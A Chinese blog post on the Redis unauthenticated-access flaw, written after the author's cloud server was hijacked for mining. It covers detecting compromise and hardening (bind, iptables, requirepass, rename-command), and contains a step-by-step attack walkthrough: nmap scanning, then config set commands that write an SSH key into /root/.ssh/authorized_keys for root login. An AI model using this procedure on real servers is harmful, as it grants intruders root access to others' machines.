

# Redis 安全漏洞检测攻击机防御
---

这两天，部署在阿里云上的测试用服务器由于没有配置防火墙，被人通过 Redis 安全漏洞入侵，拉去挖矿。于是对近期爆出的 Redis 安全漏洞进行研究了研究。

## Redis 安全漏洞

使用 redis-cli 接入你的 Redis 服务器，使用命令

	config get *

如果发现以下两个配置被修改成了如下值，恭喜你，你已经被入侵了

	127.0.0.1:6379> config get *
	  1) "dbfilename"
	  2) "authorized_keys"
	103) "dir"
	104) "/root/.ssh"

当然，对于高明的黑客，在入侵成功之后，会将这个痕迹抹除，因此一般需要检查的是 /root/.ssh 目录下面是否有一个 authorized_keys 文件，并且文件内容不是用户自己的内容，可以确认被入侵。

目前一般的入侵为通过 Redis 的安全漏洞，将本机的 ssh 公钥写入到目标机器 /root/.ssh/authorized_keys 文件中，这样，通过本机就可以实现免密码登入目标机器。当然利用这个漏洞，还可以在目标机器上创建文件，并写入其它内容，自己可以去想象

被攻击机器的条件：

- 目标机器 Redis 服务可以被公网检测
- 公网接入后可以不使用密码直接输入命令(一般很多用户默认安装是不设置密码的)或使用弱密码进行保护
- Redis 服务使用 root 账户进行启动
- 接入后可以使用 config set 命令修改 Redis 配置

**如果发现被攻击，尽快对 /root/.ssh/authorized_keys 进行清理**

下面，我们就从攻击者的角度来看一下如何检测并攻击该漏洞

## Redis 安全漏洞检测及攻击

- 在本机上执行

		ssh-keygen -t rsa

	在本机的 /root/.ssh 下回生成两个文件 id_rsa 和 id_rsa.pub。id_rsa 是生成的 ssh 密钥，id_rsa.pub 是生成的 ssh 公钥，记住公钥中的内容

- 使用 nmap 对指定网段指定端口进行扫描：

		nmap -sS xxx.xxx.xxx.0/24 -p6379 --open

	使用 nmap 的半连接扫描方式对指定网段的 6379 端口进行扫描，并返回该端口打开的服务器

	

- 使用 redis 客户端 redis-cli 连接扫描到的服务器，如果没有安装 redis-cli，也可以直接使用 telnet 方式

		redis-cli -h xxx.xxx.xxx.xxx

- 在 redis 客户端中执行命令

		ping

	如果返回 PONG，表示这个服务器的 Redis 没有设置密码

- 在 redis 客户端中执行命令

		config set dir /root/.ssh

	将 Redis 的 data 目录指定到 /root/.ssh 下，如果这步执行成功，表示目标服务器的 Redis 使用 root 启动，并且没有禁用 config set，该服务器可以被攻陷

- 在 redis 客户端中执行命令

		config set dbfilename authorized_keys

	将 Redis 的数据文件指定为 authorized_keys

- 在 redis 客户端中执行命令

		set xxxx "\n\n\nid_rsa.pub content\n\n\n"

	id\_rsa.pub 为第一部中生成的 id\_rsa.pub 中的内容

- 在 redis 客户端中执行命令

		save

	将内存中的内容写入到文件中

- 退出 redis 客户端，直接使用 ssh 就可以免密码使用 root 登录目标机器了

## Redis 安全漏洞防御

对该漏洞的防御一般从以下几个角度进行考虑：

- 目标机器 Redis 服务可以被公网检测

	一般建议方案是将 redis 启动在 127.0.0.1 上，在配置文件找到 bind，做如下配置

		bind 127.0.0.1

	但是这种方式不能跨服务器访问，一般方式是将 Redis 放到内网，防止公网检测。如果服务部署在公有云上，需要对 Redis 服务器设置防火墙，以下是我防火墙的设置

		iptables -A INPUT -p tcp -m tcp --dport 8080 -j ACCEPT
		iptables -A INPUT -s xxx.xxx.xxx.xxx/32 -p icmp -j ACCEPT
		iptables -A INPUT -p icmp -j DROP
		iptables -A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
		iptables -A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
		iptables -A INPUT -i lo -j ACCEPT
		iptables -A INPUT -j REJECT --reject-with icmp-host-prohibited
		iptables -A FORWARD -j REJECT --reject-with icmp-host-prohibited

	打开授信客户端的访问

		iptables -I INPUT -s xxx.xxx.xxx.xxx/32 -p tcp --dport 6379 -j ACCEPT

- 公网接入后可以不使用密码直接输入命令(一般很多用户默认安装是不设置密码的)或使用弱密码进行保护

	给 Redis 设置密码，在配置文件中找到 requirepass

		requirepass XXXXXX

	设置后，登录需要加 -a 参数

		redis-cli -a XXXXXX

	XXXXXX 为用户在配置文件中添加的密码

- Redis 服务使用 root 账户进行启动

	使用其它账户启动 Redis 服务

- 接入后可以使用 config set 命令修改 Redis 配置

	关闭某些命令，如关闭 config 命令，在配置文件中添加下面一行，重新启动

		rename-command CONFIG ""

	再次接入后就会发现 config 命令找不到了